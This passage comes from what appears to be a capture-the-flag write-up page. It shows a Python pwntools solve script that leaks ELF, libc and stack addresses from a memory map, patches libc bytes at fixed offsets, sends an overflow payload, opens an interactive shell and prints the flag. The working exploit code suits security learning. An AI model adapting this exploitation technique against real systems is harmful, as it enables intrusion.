 ```python

        time.sleep(0.5)

    libc_found = False
    elf_found = False
    while True:
        line = p.recvline().decode('ascii').strip()
        if 'chal' in line and not elf_found:
            elf_base = int(line.split()[0].split('-')[0], 16)
            elf_found = True

        if line.endswith('libc.so.6') and not libc_found:
            libc_base = int(line.split()[0].split('-')[0], 16)
            libc_found = True

        if line.endswith('[stack]'):
            stack_bottom = int(line.split()[0].split('-')[1], 16)
            break

    print(hex(elf_base))
    print(hex(libc_base))
    print(hex(stack_bottom))

    input_buf_offset = 5856

    for i in range(0x1149b2, 0x1149b7):
        write(libc_base + i, 1)

    for i in range(0x114a08, 0x114a0f):
        write(libc_base + i, 1)

    write(libc_base + 0x114a60, 1)

    write(libc_base + 0x1149cf, 4)
    write(libc_base + 0x1149ce, 4)

    write(libc_base + 0x114a1c, 1)
    write(libc_base + 0x1149c0, 1)

    write(libc_base + 0x11499f, 1)
    write(libc_base + 0x11499e, 1)
    write(libc_base + 0x11499d, 1)
    write(libc_base + 0x11499c, 1)
    write(libc_base + 0x11499b, 1)
    write(libc_base + 0x11499a, 1)
    p.send(("a"*0x13).encode()+p64(elf_base + 0x50a0))
    time.sleep(0.5)
    p.send(b"CT")

    p.interactive()


if __name__ == "__main__":
    main()

#CTF{y0ur_3xpl0itati0n_p0w3r_1s_0v3r_9000!!}
```

{% endcapture %}

{% include widgets/toggle-field.html toggle-name="wfw_solve3_py"
    button-text="Show solve3.py" toggle-text=wfw_solve3_py  %}
